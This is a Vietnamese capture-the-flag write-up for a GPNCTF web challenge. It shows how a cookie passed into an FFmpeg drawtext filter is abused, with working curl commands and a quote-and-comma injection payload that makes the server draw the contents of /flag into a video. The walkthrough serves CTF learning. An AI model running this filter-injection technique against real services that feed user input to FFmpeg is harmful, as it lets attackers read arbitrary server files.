




# Mô tả

I know where your house lives.

The flag lives in /flag not ./flag, not /flag.txt

**Bài không cung cấp file**

# Phân tích

## MP4

Mở instance lên thì trang web hiện ra một video súp lơ ngồi bồn tắm và địa chỉ IP của bạn



Tải file mp4 về xem có gì không, dùng `exiftool` thì thấy trong phần encoder có `Lavf60.16.100`, **Lavf**: viết tắt của **Libavformat**, là thư viện trong FFmpeg dùng để xử lý định dạng container (MP4, MKV, AVI). Vậy khả năng cao bài này đã sử dụng FFmpeg để tạo hoặc xử lí video

## Web

Vì phân mô tả của bài là Misc/Web nên là thử mở burpsuite ra xem request/response header

Khi tải trang thì sẽ gửi 2 request đến `/` và `/favicon.ico`

**/**

Request

```
GET / HTTP/1.1
Host: newside-of-forceful-sunlight.gpn23.ctf.kitctf.de
Cookie: 116.96.45.217
Sec-Ch-Ua-Platform: "Windows"
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: video
Referer: https://newside-of-forceful-sunlight.gpn23.ctf.kitctf.de/
Range: bytes=0-
Priority: i
Connection: keep-alive
```

Phần **Cookie: 116.96.45.217** lại có giá trị là ip của người dùng, khá lạ. Phần này cũng rất quan trọng về sao khi muốn lấy flag, ở dưới sẽ giải thích

Response

```
HTTP/1.1 200 OK
Content-Type: video/mp4
Date: Tue, 24 Jun 2025 14:42:34 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 774183

ftypisom..............................
```

Phần `......` chính là nội dung của video, cũng có thể thấy điều này khi kiểm tra hexdump của file mp4

```bash
$ xxd do.mp4 | head
00000000: 0000 0020 6674 7970 6973 6f6d 0000 0200  ... ftypisom....
00000010: 6973 6f6d 6973 6f32 6176 6331 6d70 3431  isomiso2avc1mp41
00000020: 0000 0008 6672 6565 000b a341 6d64 6174  ....free...Amdat
00000030: 0000 02a7 0605 ffff a3dc 45e9 bde6 d948  ..........E....H
00000040: b796 2cd8 20d9 23ee ef78 3236 3420 2d20  ..,. .#..x264 -
00000050: 636f 7265 2031 3634 2072 3331 3038 202d  core 164 r3108 -
00000060: 2048 2e32 3634 2f4d 5045 472d 3420 4156   H.264/MPEG-4 AV
00000070: 4320 636f 6465 6320 2d20 436f 7079 6c65  C codec - Copyle
00000080: 6674 2032 3030 332d 3230 3233 202d 2068  ft 2003-2023 - h
00000090: 7474 703a 2f2f 7777 772e 7669 6465 6f6c  ttp://www.videol
```

**/favicon.ico**

Request

```
GET /favicon.ico HTTP/1.1
Host: newside-of-forceful-sunlight.gpn23.ctf.kitctf.de
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://newside-of-forceful-sunlight.gpn23.ctf.kitctf.de/
Accept-Encoding: gzip, deflate, br
Priority: u=4, i
Connection: keep-alive
```

Response

```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Tue, 24 Jun 2025 14:42:27 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 171

<script>
            fetch('https://api.ipify.org?format=json').then(x=>x.json())
                .then(c => {document.cookie = c.ip; location.reload()})
        </script>
```

Phần này gửi request đến `https://api.ipify.org` và lấy thông tin ip của người gửi dưới dạng json :skull:

***Lưu ý: Khi vào bằng 1 ip khác thì mục Cookie cũng sẽ bị ghi đè bằng giá trị mới (Và trong video cũng sẽ hiện giá trị mới đó), vậy là mỗi 1 lần request đến server thì Cookie cũng sẽ bị reset theo - Rất quan trọng trong phần sau, khi lấy flag***

**Xử lí Video**

Vậy là qua phân tích các request/response headers và từ nhũng gì ta đã thấy thì có thể đoán rằng server gửi request đến `/favicon.ico` lấy được IP của người dùng sau đó dùng FFmpeg qua mục `Cookie` để đưa dữ liệu lên trên video, biết vậy rồi thì thử ghi bừa 1 cái gì đấy vào mục Cookie xem có gì thay đổi không

Người dùng gửi request đến `/` -> Gửi request đến `/favicon.ico`, Server gửi  request đến `https://api.ipify.org` -> Gửi request lấy video với `Cookie = ip lấy được` -> Xử lí video = FFmpeg -> Video. Nếu để ý thì cũng thấy được khi nhập link cũng sẽ load khá lâu, lí do là để làm cái này

## Injection

Nghịch thử trong repeater thì biết được ta bắt buộc phải đưa một chuỗi có dạng ip vào phần cookie nếu không thì server sẽ gọi `https://api.ipify.org` sau đó ghi đè lại giá trị cookie => Tham số đầu phải là 1 chuỗi có dạng ip ở đầu và phần sau là gì cũng được

```
Cookie: 100.2.3.4 hello hi xin chao
```

Vậy mục tiêu bây giờ là làm cách nào đó để đọc file `/flag` 

Tìm trên google cách [add text vào video trong FFmpeg](https://stackoverflow.com/questions/17623676/text-on-video-ffmpeg) và đọc [drawtext filter document của FFmpeg](https://ffmpeg.org/ffmpeg-filters.html#drawtext) 

Một lệnh drawtext mẫu

```
drawtext=fontfile=/path/to/font.ttf:text='Stack Overflow':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2
```

Có thể thấy để tách các lệnh ta sử dụng dấu `:`

### **Test 1**

```
$ curl 'https://elmridge-of-indomitable-stars.gpn23.ctf.kitctf.de/' \
  -H 'Host: elmridge-of-indomitable-stars.gpn23.ctf.kitctf.de' \
  -H 'Cookie: 1.1.1.1 : : hello hi' \
  -H 'Sec-Ch-Ua-Platform: "Windows"' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safa
ri/537.36' \
  -H 'Sec-Ch-Ua-Mobile: ?0' \
  -H 'Accept: */*' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: no-cors' \
  -H 'Sec-Fetch-Dest: video' \
  -H 'Referer: https://elmridge-of-indomitable-stars.gpn23.ctf.kitctf.de/' \
  -H 'Range: bytes=0-' \
  -H 'Priority: i' \
  -H 'Connection: keep-alive' \
  --output test1.mp4
```


Có thể thấy server đã chuyển dấu `:` thứ nhất thành `.` và đoạn `hello hi` đằng sau bị mất đi. Đó là do dấu `:` thứ 2 không bị biến thành dấu `.`  và `hello hi` đã bị chuyển thành lệnh sau rồi nên là không xuất hiện

### **Test 2**

Bây giờ muốn thử thêm lệnh drawtext xem có bị lỗi gì không

```
1.1.1.1::drawtext=fontfile=font.ttf:text='Stack Overflow':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2
```

Cái này sẽ báo lỗi

```
Error applying option 'drawtext' to filter 'drawtext': Option not found
Failed to set value 'drawtext=fontfile=font.otf:fontcolor=white:fontsize=128:x=(w-text_w)/2:y=(h-text_h)/2:text='1.1.1.1.:drawtext=fontfile=font.ttf:text='Stack Overflow':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2'' for option 'filter_complex': Option not found
Error parsing global options: Option not found
```

Vậy là biết được cách server xử lí cái `Cookie` được truyền vào như nào rồi. Đầu tiên sẽ là `drawtext` và lệnh `text` sẽ đưa vào toàn bộ nội dung của `Cookie`, ở đây ta gặp lỗi khi thực hiện lệnh `drawtext` thứ 2 do không phân cách giữa 2 lệnh chuẩn. Cần thêm cả dấu `,` đằng sau `:` nữa

Thử với payload mới (Thêm dấu phẩy)

```
1.1.1.1::,drawtext=fontfile=font.ttf:text='Stack Overflow':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2
```

```
curl 'https://silverton-of-ridiculous-commerce.gpn23.ctf.kitctf.de/' \
  -H 'Host: silverton-of-ridiculous-commerce.gpn23.ctf.kitctf.de' \
  -H "Cookie: 1.1.1.1::,drawtext=fontfile=font.ttf:text='Stack Overflow':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2" \
  -H 'Cache-Control: max-age=0' \
  -H 'Sec-Ch-Ua: \"Chromium\";v=\"137\", \"Not/A)Brand\";v=\"24\"' \
  -H 'Sec-Ch-Ua-Mobile: ?0' \
  -H 'Sec-Ch-Ua-Platform: \"Windows\"' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Referer: https://silverton-of-ridiculous-commerce.gpn23.ctf.kitctf.de/' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'Priority: u=0, i' \
  -H 'Connection: keep-alive' \
  --output test2.mp4
```



Tốt rồi

### Test 3

Đọc phần docs của `drawtext` thì biết được cách để đọc 1 file rồi in ra màn hình là `textfile`

```
textfile
A text file containing text to be drawn. The text must be a sequence of UTF-8 encoded characters.

This parameter is mandatory if no text string is specified with the parameter text.

If both text and textfile are specified, an error is thrown.
```

Thử payload mới

```
1.1.1.1::,drawtext=fontfile=font.ttf:textfile='/flag':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2
```

Sẽ bị lỗi

```
[Parsed_drawtext_0 @ 0x7f350ab34ec0] Both text and text file provided. Please provide only one
[AVFilterGraph @ 0x7f3505c1ef80] Error initializing filters
Failed to set value 'drawtext=fontfile=font.otf:fontcolor=white:fontsize=128:x=(w-text_w)/2:y=(h-text_h)/2:text='1.1.1.1.:,drawtext=fontfile=font.ttf:textfile=/flag:fontcolor=white:fontsize=24:x=(w-text_w)/2:y=(h-text_h)/2'' for option 'filter_complex': Invalid argument
Error parsing global options: Invalid argument
```

Do như trong docs đã nói thì `text` và `textfile` không được cùng tồn tại được, và vì toàn bộ phần `text` chính là nội dung của `Cookie` cho nên là phải có một cách injection khác

### Flag

Sau khi tìm hiểu một chút thì biết được nếu thêm dấu `'` vào sau `1.1.1.1:` thì khi đưa vào server xử lí thì sẽ tách được cái `drawtext` của server và `drawtext` của mình, sẽ kiểu như thế này

```
'   drawtext=fontfile=font.otf:fontcolor=white:fontsize=128:x=(w-text_w)/2:y=(h-text_h)/2:text='1.1.1.1.':,drawtext=fontfile=font.ttf:textfile=/flag:fontcolor=white:fontsize=24:x=(w-text_w)/2:y=(h-text_h)/2' '

Chia ra 2 cục
'
drawtext=fontfile=font.otf:fontcolor=white:fontsize=128:x=(w-text_w)/2:y=(h-text_h)/2:text='1.1.1.1.'
:,drawtext=fontfile=font.ttf:textfile=/flag:fontcolor=white:fontsize=24:x=(w-text_w)/2:y=(h-text_h)/2'
'
```

- `'1.1.1.1.'` kết thúc chuỗi `text='...'` của server

- `:,drawtext=...` là một filter hợp lệ do mình chèn vào

- `'` cuối cùng đóng luôn toàn bộ filter nếu server ghép thêm `'` ở cuối, cái này thì thấy được rằng nó tự ghép thêm `'` ở cuối khi báo lỗi rồi

Payload lấy flag

```
1.1.1.1:':,drawtext=fontfile=font.ttf:textfile='/flag':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2
```

Test trên repeater thì thấy thành công trả về video



`curl` lại

``` 
curl 'https://silvercreek-of-uncomfortably-powerful-harmony.gpn23.ctf.kitctf.de/' \
  -H "Cookie: 1.1.1.1:':,drawtext=fontfile=font.ttf:textfile='/flag':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2" \
  -H "Host: silvercreek-of-uncomfortably-powerful-harmony.gpn23.ctf.kitctf.de" \
  -H "Sec-Ch-Ua-Platform: \"Windows\"" \
  -H "Accept-Encoding: gzip, deflate, br" \
  -H "Accept-Language: en-US,en;q=0.9" \
  -H "Sec-Ch-Ua: \"Chromium\";v=\"137\", \"Not/A)Brand\";v=\"24\"" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36" \
  -H "Sec-Ch-Ua-Mobile: ?0" \
  -H "Accept: */*" \
  -H "Sec-Fetch-Site: same-origin" \
  -H "Sec-Fetch-Mode: no-cors" \
  -H "Sec-Fetch-Dest: video" \
  -H "Referer: https://silvercreek-of-uncomfortably-powerful-harmony.gpn23.ctf.kitctf.de/" \
  -H "Range: bytes=0-" \
  -H "Priority: i" \
  -H "Connection: keep-alive" \
  --output flag.mp4
```

Và ra đúng flag, với 2 đoạn text được đưa vào video đúng như dự đoán, có thể làm đoạn IP không hiện ra nữa bằng cách thêm `fontsize=0` vào sau 1.1.1.1 cũng được



`GPNCTF{Y0UR_HOus3_1iVes_4T_google.com/maps/place/neapolis.11.polignano}`
